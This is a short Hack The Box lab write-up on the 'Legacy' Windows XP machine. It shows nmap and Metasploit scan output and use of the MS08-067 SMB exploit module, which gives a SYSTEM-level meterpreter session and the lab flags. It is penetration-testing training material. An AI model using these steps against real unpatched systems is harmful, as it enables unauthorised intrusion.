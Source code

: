 # Legacy 10.10.10.4 - Windows

__User__: 001 - Initial Attempt

__Root__: 001 - Initial Attempt

## 00 - Initial Attempt, 05/04/20

`nmap -sC -sV -oA legacy -Pn 10.10.10.4`

```shell
thoth@kali:~/Projects/htb-notes/machines/Legacy/dumps$ nmap -sC -sV -Pn 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 20:05 EDT
Nmap scan report for 10.10.10.4
Host is up (0.029s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h26m27s, deviation: 2h07m17s, median: -5h56m28s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ff:cb (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-05-05T00:08:46+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.38 seconds
```

#### Initial Ideas and Reactions

 - Windows XP machine
 - port 139 is smb server
  - message signing disabled, guest account, auth level user
 - 445 Windows File Sharing and other MS services
 - 3389 CLOSED ms-wbt-server


Attempted to use `smbclient -L` along with `-U`, `-p`, `-I` etc to try to connect to 139 and 445. No dice. Ran `msfconsole` and `/scanner/smb/smb_version`:

```shell
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
```

Following along with CyberMentor I `msf5 > search windows/smb` and `use windows/smb/ms08_067_netap`

```powershell
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

From here I was able to navigate to `C:\Documents and Settings\john\Desktop` to find the user flag. And into `Administrator` for the root flag.